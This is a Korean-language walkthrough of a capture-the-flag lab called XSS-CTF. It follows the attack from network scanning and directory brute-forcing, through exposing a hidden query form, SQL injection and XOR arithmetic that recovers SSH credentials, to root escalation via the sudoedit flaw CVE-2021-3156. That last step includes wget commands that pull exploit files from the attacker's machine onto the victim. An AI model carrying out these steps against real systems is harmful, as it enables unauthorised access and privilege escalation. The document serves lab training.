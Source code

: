 # XSS-CTF
2025-04-18 XSS-CTF  Walkthrough

네트워크 1-브리지 2-호스트

kali: 192.168.56.105
victim:192.168.56.143

nmap 192.168.56.0/24

nmap -A -sS -sC -p- 192.168.56.143


kali firefox에서 http://192.168.56.143 접속	//apache2 기본 페이지


## Scan

```
gobuster dir -u http://[xss-ctf ip] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,txt,php,bak
```
/index.php  /index.html  /list.php  /add.php

## /index.php

!!!!!!!
들어가보았지만 Not Found가 뜬다. 그래서 web source페이지를 보았다.

!!!!!!!

/H10000.txt
!!!!!!!!
H10000 값


## /list.php

index.php에서 Not Found가 떠서 list.php를 들어가면 다음과 같은 글이 작성되어있다

!!!!!!!!!
M1,M2,M3,M4 값이 중요하기 때문에 복붙

1번 게시글 삭제 후 /index.php 를 다시 들어가면 정상적인 페이지가 뜬다는 것을 확인할 수 있다
!!!!!!!!!!
!!!!!!!!!!

## /add.php

http://192.168.56.143/add.php에서 View Source Code를 들어가서 보면 쿼리 작성폼이라는 주석이있는 줄에 쿼리 작성 폼과 ID 조회하는 코드에 type=”hidden”이 되어 있는 것을 알 수 있다.

!!!!!!!!!!

개발자 도구 -F12
<!- -MySQL 쿼리 입력 폼 -- > 주석 확인
type=”hidden” 2개 확인 가능

!!!!!!!!!!!!!!!!!!!!!

type=”hidden” 삭제

type=”hidden” -> type=”submit” 변경


Mysql 쿼리 입력 부분 출력됨
!!!!!!!!!!!!!!!!!!!!!!!!

SQL Injection 공격 가능 – userID DB 확인 가능
!!!!!!!!!!!!!!!!!!!!
!!!!!!!!!!!!!!!!!!!!

## XOR 연산

XOR 변환기 http://kor.pe.kr/util/4/xor_convert.htm

/list.php 에서 얻은 M1,M2,M3,M4 값과 /H10000 에서 얻은 H10000 값으로 XOR 연산

이 과정은 총 2가지로 풀 수 있다.

1번 방법: 

192.168.56.143/index.php에서 다음과 같은 식을 제공하였다. 이때 P=Password다. 

M1=userID ⨁ K ⨁ H9999

M2=serverID ⨁ K ⨁ H9999 

M3=H10000 ⨁ P

M4=H9999 ⨁ 

P=H10000⨁M3를 통해 Password=df93ef64167b2334664ff59a5b8185f5값을 구하면 M4를 통해 H9999를 구할 수 있다. H9999=M4⨁P 이후 M1을 이용하여 K를 구할 수 있다. 이때 UserID는 위의 SQL Injection으로 찾아낸 UserID 중 하나씩 다 대입하면 UserID=Ocean777Timewarp를 넣어서 계산하다보면 그럴듯한 K=secretpassword12값이 나온다. 그 다음 M2에서 serverID=M2⨁H9999를 구할 수 있다. serverID=cr0sss1tescr1pt9 이제 서버의 ID와 Password를 전부 찾았다.

2방법: 

M1=userID ⨁ K ⨁ H9999

M2=serverID ⨁ K ⨁ H9999 

M3=H10000 ⨁ P

M4=H9999 ⨁ P

P=H10000⨁M3를 통해 Password=df93ef64167b2334664ff59a5b8185f5를 구한 후 M1⨁M2=userID⨁serverID가 나오고 SQL Injection으로 찾아낸 userID를 하나씩 대입하면 serverID= cr0sss1tescr1pt9가 나온다. 이렇게 하면 굳이 H9999값과 K값을 구하지 않아도 ServerID값을 구할 수 있다.


## SSH 접속

userID :
cr0sss1tescr1pt9

password :
df93ef64167b2334664ff59a5b8185f5

!!!!!!!!!!!!!!!!!!!!!!!!!!


## User Flag

!!!!!!!!!!!!!!


## Root Flag

root로 권한 상승 - sudoedit
!!!!!!!!!!!!!!!!

https://github.com/blasty/CVE-2021-3156  참조

- brute.sh , hax.c , lib.c 파일 생성

cr0sss1tescr1pt9 사용자는 vi,vim,nano 사용할 수 없다.

kali-root 계정에서 /var/www/html/ 디렉터리에 파일 생성 후, cr0sss1tescr1pt9 사용자 계정에서 wget으로 파일을 다운로드한다.
```
wget http://[kali ip]/brute.sh
```
```
wget http://[kali ip]/hax.c
```
```
wget http://[kali ip]/lib.c
```

https://github.com/blasty/CVE-2021-3156 - Makefile 참고
!!!!!!!!!!!!!!!







